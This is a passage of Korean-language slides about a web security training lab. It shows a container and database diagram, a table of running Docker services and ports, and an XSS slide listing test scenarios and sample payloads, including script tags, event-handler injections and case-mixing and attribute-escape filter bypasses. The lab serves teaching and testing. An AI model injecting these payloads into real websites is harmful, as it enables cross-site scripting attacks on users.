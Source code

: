 ```
┌────▼───┐  ┌───▼────┐  ┌───▼─────┐  ┌──▼─────┐  ┌──▼─────┐
│ MySQL  │  │MongoDB │  │PostgreSQL│  │ MySQL  │  │ MySQL  │
│ :3307  │  │ :27017 │  │  :5432   │  │ :3307  │  │ :3307  │
└────────┘  └────────┘  └──────────┘  └────────┘  └────────┘
             ┌─────────────────────────────────────────────┐
             │              Redis Cache                     │
             │                :6379                        │
             └─────────────────────────────────────────────┘
```

---

## 📌 슬라이드 5: 현재 실행 환경
### 🚀 실행 중인 서비스
| 서비스 | 이미지 | 포트 | 상태 |
|--------|--------|------|------|
| **대시보드** | websec-lab-v2-dashboard | 80 | ✅ 정상 |
| **PHP 서버** | websec-lab-v2-php-server | 8080 | ✅ 정상 |
| **MySQL** | mysql:8.0 | 3307 | ✅ 정상 |
| **Redis** | redis:7-alpine | 6379 | ✅ 정상 |

### 📊 리소스 사용량
- **컨테이너 수**: 4개
- **네트워크**: websec-network (172.20.0.0/16)
- **볼륨**: mysql_data, redis_data

---

## 📌 슬라이드 6: XSS 구현 세부사항
### 🎭 테스트 시나리오
1. **Basic**: 기본 HTML 출력
2. **Search**: 검색 결과 페이지 렌더링
3. **Greeting**: 사용자 인사말 표시
4. **Form**: 폼 데이터 처리 결과

### 💣 페이로드 예시
```javascript
// 기본 스크립트 태그
<script>alert("XSS")</script>

// 이미지 태그 이벤트 핸들러
<img src=x onerror=alert("XSS")>

// SVG 태그
<svg onload=alert("XSS")>

// 속성 이스케이프 우회
" onmouseover="alert('XSS')" "

// 대소문자 우회
<ScRiPt>alert("XSS")</ScRiPt>
```

---
